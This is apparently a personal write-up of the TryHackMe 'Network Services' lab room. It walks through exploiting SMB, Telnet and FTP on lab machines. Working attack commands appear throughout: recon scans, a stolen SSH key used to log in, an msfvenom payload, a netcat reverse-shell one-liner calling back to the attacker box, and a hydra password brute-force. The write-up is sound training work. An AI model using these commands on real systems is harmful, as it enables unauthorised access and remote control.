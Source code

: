 # Network Services
+ Description: Learn about, then enumerate and exploit a variety of network services and misconfigurations.
+ Link: https://tryhackme.com/r/room/networkservices
+ Type: Walkthrough
  
+ Target IP Address (SMB): 10.10.6.182
+ Target IP Address (Telnet): 10.10.112.119
+ AttackBox IP Address (Telnet): 10.10.198.128
+ Target IP Address (FTP): 10.10.148.36

## Tools
+ NMAP
+ enum4linux
+ smbclient
+ SSH
+ Telnet
+ MSFvenom
+ Netcat

## External Resources
N/A

## Task 01 | Get Connected
N/A

## Task 02 | Understanding SMB
+ SMB = Server Message Block
+ Client-server communication protocol used for sharing networked resources (i.e. files, printers, serial ports).
+ Response-request protocol, so it transmit messages between the client and server to establish a connection.
+ Once a connection is established, a client can send commands to the server for access to resources and essentially treats it as an extension of their own file system.

## Task 03 | Enumerating SMB
1. Recon: `nmap -sV 10.10.6.182`. The machine has 3 ports open and the following services: OpenSSH and Samba.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/01.png)
  
2. `enum4linux -a 10.10.6.182`. Found that the workgroup name is "WORKGROUP", the machine's name is "POLOSMB", the OS version is 6.1, and an share called "profiles".  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/02.png)
  
## Task 04 | Exploiting SMB
1. `smbclient //10.10.6.182/profiles` to see if the share allows anonymous acces. It does.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/03.png)
  
2. Looked around in the directory. Found that a person named John Cactus uses/owns this folder, they connect using SSH, and their authorization keys.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/04.png)
  
3. `get id_rsa` and `get id_rsa.pub` to download the files. `cat id_rsa.pub` to find a hint to John's login infomation "cactus@polosmb".
4. `ssh -i id_rsa cactus@10.10.6.182` to log into the machine using John's RSA private key.
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/05.png)
  
5. Looked around in the directory, found a file called "smb.txt", downloaded it using `get smb.txt`, and read it using `cat smb.txt`. Found the flag.

## Task 05 | Understanding Telnet
+ Application protocol
+ Allows a user to connect to and execute commands on a remote machine that's running a Telnet server via a Telnet client.
+ Unencrypted
+ Mostly replaced by SSH.
+ Command Syntax: `telnet <ip> <port>`.

## Task 06 | Enumerating Telnet
1. Recon: `nmap -sV 10.10.112.119` revealed that 0 ports were open. So, I started a different scan `nmap -sV -p- 10.10.112.119 -T 5`, to look through all ports.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/06.png)
  
2. By looking through the returned information from the NMAP scan I found that port 8012/TCP is being used for a backdoor and is likely owned by a user named "SKIDY".

## Task 07 | Exploiting Telnet
1. `telnet 10.10.112.119 8012` and tried out some commands.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/07.png)
  
2. On the AttackBox `sudo tcpdump ip proto \\icmp -i ens5` and `.RUN ping 10.10.198.128 -c 1` on the Telnet session to see if I can execute system commands and reach the AttackBox.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/08.png)
  
3. On the AttackBox `msfvenom -p cmd/unix/reverse_netcat lhost=10.10.198.128 lport=4444 R` to create the reverse shell.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/09.png)
  
4. On the AttackBox `nc -lvp 4444` to listen on port 4444.
5. On the Telnet session `.RUN mkfifo /tmp/tmqkt; nc 10.10.198.128 4444 0</tmp/tmqkt | /bin/sh >/tmp/tmqkt 2>&1; rm /tmp/tmqkt`.
6. On the AttackBox in the Terminal with the listener, I executed `ls` and `cat flag.txt` to locate and display the flag.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/10.png)
  
## Task 08 | Understanding FTP
+ A protocol used to transfer files remotely over a network. 
+ Uses a client-server model; client initiates connection to the server, server validates the client's credentials, and then a session is opened.
+ Once a session is opened, the client can execute FTP commands on the server.
+ Operates using 2 channels: Command & Data.
+ The command channel transmits commands and replies to commands.
+ The data channel transmits data.
+ Channels are unencrypted.
+ A sever can support active and/or passive connections.
+ In an active FTP connection, the client opens a port and listens. The server is required to actively connect to it. 
+ In a passive FTP connection, the server opens a port and listens (passively) and the client connects to it. 
+ By separating commands and data into separate channels, a user doesn't have to wait for the current data transfer to finished before executing more commands.
+ Default port = 21

## Task 09 | Enumerating FTP
1. Recon: `nmap -sV 10.10.148.36`. Revealed two ports open with the services: FTP and Apache.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/11.png)
  
2. Connected to the FTP server using `ftp 10.10.148.36` with name "anonymous" and no password. Found a file called "PUBLIC_NOTICE.txt".  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/12.png)
3. `get PUBLIC_NOTICE.txt` and `cat PUBLIC_NOTICE.txt` to see what's in the file. Found a possible username "Mike".

## Task 10 | Exploiting FTP
1. I first tried `hydra -t 4 -l Mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.148.36 ftp`, however it was getting taking a while. S,o I changed up the command (`hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt 10.10.148.36 ftp`) and tried again.  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/13.png)
  
2. Connected to the FTP server again using `ftp 10.10.148.36` this time with name "mike" and password "password". Found a file called "ftp.txt".  
   ![](https://github.com/ArcingFirehawk/My-THM-Write-Ups/blob/main/Room04/Screenshots/14.png)
  
3. `get ftp.txt` and `cat ftp.txt` to see what's in the file. Found the flag.

## Task 11 | Expanding Your Knowledge
+ https://medium.com/@gregIT/exploiting-simple-network-services-in-ctfs-ec8735be5eef
+ https://attack.mitre.org/techniques/T1210/
+ https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/

## Learned
+ New Tools: MSFvenom.
+ I'm now more familiar/refreshed myself with SMB, Telnet, and FTP.
+ "id_rsa.pub" is useful because it's the default name of an SSH identity file.